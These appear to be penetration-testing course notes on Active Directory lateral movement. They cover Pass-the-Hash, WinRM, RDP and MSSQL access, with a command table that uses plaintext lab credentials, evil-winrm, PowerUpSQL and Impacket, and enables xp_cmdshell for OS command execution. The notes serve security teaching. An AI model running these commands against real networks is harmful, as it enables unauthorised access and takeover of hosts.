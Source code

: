
Once we gain a foothold in the domain, our goal shifts to advancing our position further by moving laterally or vertically to obtain access to other hosts, and eventually achieve domain compromise or some other goal, depending on the aim of the assessment. To achieve this, there are several ways we can move laterally. Typically, if we take over an account with local admin rights over a host, or set of hosts, we can perform a `Pass-the-Hash` attack to authenticate via the SMB protocol.


`pass-the hash` == `local admin on host`

IF NO`local admin rights on any hosts in the domain?`
PSRemoting or Windows Remote Management (WinRM)
RDP
`MSSQL Server` - an account with sysadmin privileges on an SQL Server instance can log into the instance remotely and execute queries against the database. This access can be used to run operating system commands in the context of the SQL Server service account through various methods

---

We can enumerate this access in various ways. The easiest, once again, is via BloodHound, as the following edges exist to show us what types of remote access privileges a given user has:

- [CanRDP](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#canrdp)
- [CanPSRemote](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#canpsremote)
- [SQLAdmin](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#sqladmin)

---
`Enter-PSSession` and `PowerUpSQL` from the Windows attack host and `evil-winrm` and `mssqlclient.py` from the Linux attack host).

# Privileged Access

|Command|Description|
|---|---|
|`Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"`|PowerView based tool to used to enumerate the `Remote Desktop Users` group on a Windows target (`-ComputerName ACADEMY-EA-MS01`) from a Windows-based host.|
|`Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"`|PowerView based tool to used to enumerate the `Remote Management Users` group on a Windows target (`-ComputerName ACADEMY-EA-MS01`) from a Windows-based host.|
|`$password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force`|Creates a variable (`$password`) set equal to the password (`Klmcargo2`) of a user from a Windows-based host.|
|`$cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)`|Creates a variable (`$cred`) set equal to the username (`forend`) and password (`$password`) of a target domain account from a Windows-based host.|
|`Enter-PSSession -ComputerName ACADEMY-EA-DB01 -Credential $cred`|Uses the PowerShell cmd-let `Enter-PSSession` to establish a PowerShell session with a target over the network (`-ComputerName ACADEMY-EA-DB01`) from a Windows-based host. Authenticates using credentials made in the 2 commands shown prior (`$cred` & `$password`).|
|`evil-winrm -i 10.129.201.234 -u forend`|Used to establish a PowerShell session with a Windows target from a Linux-based host using `WinRM`.|
|`Import-Module .\PowerUpSQL.ps1`|Used to import the `PowerUpSQL` tool.|
|`Get-SQLInstanceDomain`|PowerUpSQL tool used to enumerate SQL server instances from a Windows-based host.|
|`Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'`|PowerUpSQL tool used to connect to connect to a SQL server and query the version (`-query 'Select @@version'`) from a Windows-based host.|
|`mssqlclient.py`|Impacket tool used to display the functionality and options provided with `mssqlclient.py` from a Linux-based host.|
|`mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth`|Impacket tool used to connect to a MSSQL server from a Linux-based host.|
|`SQL> help`|Used to display mssqlclient.py options once connected to a MSSQL server.|
|`SQL> enable_xp_cmdshell`|Used to enable `xp_cmdshell stored procedure` that allows for executing OS commands via the database from a Linux-based host.|
|`xp_cmdshell whoami /priv`|Used to enumerate rights on a system using `xp_cmdshell`.|
